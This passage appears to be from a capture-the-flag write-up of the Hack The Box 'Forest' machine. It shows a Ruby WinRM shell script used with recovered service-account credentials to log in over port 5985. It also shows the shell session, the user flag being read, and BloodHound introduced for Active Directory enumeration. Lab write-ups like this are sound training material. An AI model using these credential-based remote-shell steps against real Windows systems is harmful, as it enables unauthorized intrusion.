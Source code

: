 {% endhighlight%}

I now see a possible entry point, which is port `5985` that is used by the `WinRM` service for remote management of Windows systems. Lets see if we can establish a shell using `Alamot`'s [`winrm_shell.rb`](https://github.com/Alamot/code-snippets/blob/master/winrm/winrm_shell.rb)

{% highlight ruby %}
require 'winrm'

# Author: Alamot

conn = WinRM::Connection.new( 
  endpoint: 'http://htb.local:5985/wsman',
  transport: :ssl,
  user: 'htb.local\svc-alfresco',
  password: 's3rvice',
  :no_ssl_peer_verification => true
)
...
{% endhighlight %}

# user.txt

{% highlight bash %}
$ ruby winrm_shell.rb
PS htb\svc-alfresco@FOREST Documents> whoami
htb\svc-alfresco
{% endhighlight %}

We finally got in! Now, to grab the user flag.
{% highlight powershell %}
PS htb\svc-alfresco@FOREST Documents> cd ../Desktop
PS htb\svc-alfresco@FOREST Desktop> more user.txt
e5e4XXXXXXXXXXXXXXXXXXXXXXXXXXXX
{% endhighlight %}

# Enumeration (2)

This was where I really got lost and I had to turn to the forums for more hints.

Many mentioned about some "dog" but I guess they were referring to [`BloodHound`](https://github.com/BloodHoundAD/BloodHound). 

{% highlight raw%}
BloodHound is a single page Javascript web application, built on top of Linkurious, compiled with Electron, with a Neo4j database fed by a PowerShell/C# ingestor.

BloodHound uses graph theory to reveal the hidden and often unintended relationships within an Active Directory environment. Attacks can use BloodHound to easily identify highly complex attack paths that would otherwise be impossible to quickly identify. Defenders can use BloodHound to identify and eliminate those same attack paths. Both blue and red teams can use BloodHound to easily gain a deeper understanding of privilege relationships in an Active Directory environment.
{% endhighlight %}
